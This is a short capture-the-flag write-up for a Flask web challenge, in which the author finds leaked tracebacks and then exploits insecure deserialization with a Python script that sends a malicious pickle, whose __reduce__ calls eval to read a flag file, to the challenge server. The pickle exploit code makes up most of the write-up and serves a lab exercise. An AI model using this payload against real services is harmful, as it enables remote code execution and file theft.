 This is a web challange so I connected to the web site and the first thing that I checked was the sources of the site. But there was nothing. I saw in the networking tab that it was making a request so I made a request using **curl -X POST http://ip:port > a.html** and I saved the output as a html to have a nice format. I gon ahead an opened it and I got soething. There were some tracebacks and the fact that this web site is powered by flask.

![img](https://raw.githubusercontent.com/L1ghtDream/cyberedu/master/rundown/images/1.png?raw=true)

We also found that the site was running python 2.7 and we had a small portion of the main 

![img](https://raw.githubusercontent.com/L1ghtDream/cyberedu/master/rundown/images/2.png?raw=true)

There we can see that our payload can not contain spaces. This will get out test harder
So I created this scirpt in order to send a valid payload

```
import _pickle as cPickle
import base64
import os
import string
import requests
import time

class Exploit(object):
	def __reduce__(self):
		return (eval, ('eval(open("flag","r").read())', ))

def sendPayload(p):
	newp = base64.urlsafe_b64encode(p).decode()
	headers = {'Content-Type': 'application/yakoo'}
	r = requests.post("http://35.242.253.155:30788/",headers=headers,data=newp)
	return r.text


payload_dec = cPickle.dumps(Exploit(), protocol=2)
print(sendPayload(payload_dec))
```

I want to set the inner_payload to **eval(open(flag), 'r').read())** and I got a big output but at the end of it I got **SyntaxError: ('invalid syntax', ('<string>', 1, 4, 'ctf{f94f7baf771dd04b5a9de97bceba8fc120395c04f10a26b90a4c35c96d48b0bb}'))** here is the flag **ctf{f94f7baf771dd04b5a9de97bceba8fc120395c04f10a26b90a4c35c96d48b0bb}**
